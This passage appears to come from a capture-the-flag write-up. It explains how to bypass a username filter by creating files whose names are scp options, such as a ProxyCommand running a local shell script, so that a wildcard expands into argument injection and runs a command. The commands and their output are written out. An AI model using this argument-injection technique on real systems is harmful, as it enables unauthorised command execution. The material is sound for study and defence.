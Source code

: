 One such vector is explained here:
https://sonarsource.github.io/argument-injection-vectors/binaries/ssh/
It was actually used in an exploit for the Visual Studio Code remote desktop extension:
https://www.shielder.com/it/advisories/remote-command-execution-in-visual-studio-code-remote-development-extension/

`-o` can be used to add connect options, and allows you to add the option like `ProxyCommand=` without a necessary space. We are still limited in the characters we can use for the command itself due to `sanitize()`, but running `sh shell.sh` would be enough because we can write a file in the current directory with any complex payload.

One problem that persists is the fact that the username is checked for the `-` character in the middleware:

```ts
req.session.username = sanitize(req.session.username);
if (/[-\/]/.test(req.session.username)) {
  res.type("txt");
  res.status(400).send("Invalid username!");
  return;
}
next();
```

The trick is that we can reuse the same wildcard technique from before. We can write files with filenames starting with `-` that act as options when we specify `*` as the username because it expands to all matching files in the current directory. Our input has `@backup:backup.tar.gz` appended to it in the 1st argument, so the wildcard can only match files with this suffix.

Let's try to make a payload that executes an arbitrary command. Writing our payload in `shell.sh` and using `sh` with the filename will ignore the second argument (`@backup...`) and execute our written command.

```sh
$ echo 'id > /dev/tty' > shell.sh
$ scp '-oProxyCommand=sh shell.sh @backup:backup.tar.gz' .
usage: scp [-346ABCpqrTv] [-c cipher] [-F ssh_config] [-i identity_file]
            [-J destination] [-l limit] [-o ssh_option] [-P port]
            [-S program] source ... target
```

This doesn't seem to work just yet, because it requires *options*, then a *source* and a *target*, we have just provided options and a source, no third argument. Luckily, due to wildcard expansion rules, matching multiple files will put them as separate arguments one after the other. We just have to write one more `anything@backup:backup.tar.gz` file that will also match the wildcard and appear after the options.

```sh
$ scp '-oProxyCommand=sh shell.sh @backup:backup.tar.gz' 'anything@backup:backup.tar.gz' .
uid=1337(user) gid=1337(user) groups=1337(user)
kex_exchange_identification: Connection closed by remote host
Connection closed by UNKNOWN port 65535
```

We can confirm this also works with a wildcard matching written filenames:

```sh
$ touch -- '-oProxyCommand=sh shell.sh @backup:backup.tar.gz'
$ touch -- 'anything@backup:backup.tar.gz'
$ scp *@backup:backup.tar.gz .
uid=1337(user) gid=1337(user) groups=1337(user)
kex_exchange_identification: Connection closed by remote host
Connection closed by UNKNOWN port 65535
```
